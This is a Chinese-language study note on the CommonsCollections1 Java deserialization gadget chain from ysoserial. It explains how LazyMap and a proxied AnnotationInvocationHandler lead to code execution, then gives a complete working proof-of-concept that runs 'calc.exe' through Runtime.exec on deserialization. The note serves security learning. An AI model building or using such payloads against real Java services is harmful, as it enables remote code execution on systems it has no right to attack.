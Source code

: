 # CommonsCollections1笔记

代码在github搜索ysoserial即可，这里一个比较好玩的是动态代理，这里给一篇参考文章，https://www.liaoxuefeng.com/wiki/1252599548343744/1264804593397984

## 流程

LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 factory.transform 方法去获取一个值，我们可以利用此来执行整个transform的整个利用过程

然后关于如何触发到get方法，其实在`AnnotationInvocationHandler`类的`invoke`方法有调用到get

我这里本机是jdk7u21，这是我看到的代码![](img/1.png)



可以看到这里在调用其他方法时(从图中看是除了(toString、hashCode、annotationType)会触发get方法，而`this.memberValues`可控

因此不难想到将`AnnotationInvocationHandler`用`Proxy`进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到 `AnnotationInvocationHandler#invoke` 方法中，进而触发我们的 `LazyMap#get`



因此不难得到下面的代码

```java
package lldapp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),

            new InvokerTransformer("getMethod", new Class[]{
                String.class,
                Class[].class}, new Object[]{"getRuntime",
                new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class,
                Object[].class}, new Object[]{null, new
                Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class
            },
                new String[]{"calc.exe"}),
        };
        Transformer transformerChain = new
            ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
            Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
            Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
            construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
            Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class},
                handler);
        handler = (InvocationHandler)
            construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```

